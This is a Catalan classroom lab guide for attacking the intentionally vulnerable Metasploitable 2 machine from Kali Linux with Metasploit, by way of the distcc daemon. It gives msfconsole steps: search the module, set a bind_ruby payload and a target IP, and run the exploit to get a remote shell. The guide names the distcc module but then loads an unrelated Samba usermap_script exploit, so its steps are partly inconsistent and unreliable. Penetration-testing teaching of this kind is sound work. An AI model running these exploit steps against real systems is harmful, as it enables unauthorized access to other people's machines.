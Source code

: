 ## En aesta pràctica prepararem la màquina `metasploitable 2 (linux)` per a poder realitzar algunes activitats amb Metasploit amb posterioritat.

!!!danger "Perill!!"
    No proveu açò fora d'un entorn didáctic. Podrieu cometrer un delicte...

1 Inicia les màquines `Kali Linux` i `Metasploitable 2`. Ha d'haver-hi comunicació per xarxa local entre ambdues. 
!!!note "Anotació"
    Tots els passos a realitzar es faran des de la màquina Kali. S'intentarà accedir a la màquina Metasploitable mitjançant una vulnerabilitat del dimoni distcc. 
    distcc és un compilador del llenguatge C i C++ pensat en l'aprofitament de màquines distribuïdes en la mateixa xarxa local per a optimitzar els temps de compilació utilitzant el temps de CPU d'altres màquines que estan ocioses.

Kali: Búsqueda del módulo a utilizar con metasploit:

````
search distcc
Selecciona el texto "exploit/unix/misc/distcc_exec"
````

![search](img/search.png)

Kali: Selecciona'l:
````
use exploit/multi/samba/usermap_script
````
![use](img/use.png)

Kali: Selecciona el payload a utilitzar:

````
show payloads
set payload cmd/unix/bind_ruby
````
![use](img/payload.png)

Instructions:

````
show options
set RHOSTS 10.0.2.5
(Modifica 10.0.2.5 per la IP de la màquina a atacar)
````

![show](img/show.png)

`````
Kali: Executeu l'exploit:

exploit
A partir d'ara hem obtingut una terminal en la màquina atacada.
`````
![exploit](img/exploit.png)